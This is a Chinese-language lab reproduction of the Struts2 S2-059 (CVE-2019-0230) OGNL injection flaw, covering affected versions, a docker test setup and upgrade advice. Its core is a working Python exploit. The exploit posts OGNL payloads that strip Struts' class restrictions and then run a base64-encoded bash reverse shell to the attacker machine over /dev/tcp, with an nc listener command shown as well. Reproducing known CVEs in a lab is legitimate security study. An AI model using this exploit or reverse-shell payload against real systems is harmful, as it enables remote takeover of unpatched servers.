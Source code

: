 # CVE-2019-0230：Struts2 S2-059 远程代码执行复现



## 0x01 简介





Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。



## 0x02 漏洞概述

 **漏洞编号CVE-2019-0230**

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

### 0x03 影响版本



Struts 2.0.0 – Struts 2.5.20

**0x04 环境搭建**



攻击机：linux:192.168.20.128

靶机：Ubuntu:192.168.20.129



1、启动 Struts 2.5.16环境:



```
docker-compose up -d
```



![img](.resource/%EF%BC%88CVE-2019-0230%EF%BC%89S2-059/media/640-20201027224353796.png)



 2、启动环境之后访问http://your-ip:8080/?id=1 就可以看到测试界面



![img](.resource/%EF%BC%88CVE-2019-0230%EF%BC%89S2-059/media/640-20201027224353373.png)



## 0x05 漏洞复现



1、访问

```
http://your-ip:8080/?id=%25%7B233*233%7D
```



可以发现233*233的结果被解析到了id属性中可以看到通过构造恶意的OGNL表达式，并将其设置到可被外部输入进行修改，且会执行OGNL表达式的Struts2标签的属性值，引发OGNL表达式解析。



![img](.resource/%EF%BC%88CVE-2019-0230%EF%BC%89S2-059/media/640-20201027224354099.png)



2、对poc进行了修改，反弹shell

```
import requests
url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwLjEyOC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```



这里exec()函数里是我们要执行的命令，我们进行linux反弹shell命令



```
bash -i >& /dev/tcp/192.168.20.128/6666 0>&1
```



（PS：这里经过水木逸轩大佬指点了解到反弹shell涉及到管道符问题于是要将命令进行base64编码）

base64在线编码：

https://ares-x.com/tools/runtime-exec/

3、在攻击机监听本地端口：nc -lvvp 6666 运行脚本成功反弹回shell





![img](.resource/%EF%BC%88CVE-2019-0230%EF%BC%89S2-059/media/640-20201027224353601.png)



**0x06 修复建议**



1.Struts官方已经发布了新版本修复了上述漏洞，请受影响的用户尽快升级进行防护。



2.若不方便升级的用户，可以参考Struts官方提供的缓解措施：

将输入参数的值重新分配给某些Struts的标签属性时，请始终对其进行验证。

 考虑激活Proactive OGNL Expression Injection Protection。



参考链接：http://blog.nsfocus.net/struts-s2-0813/

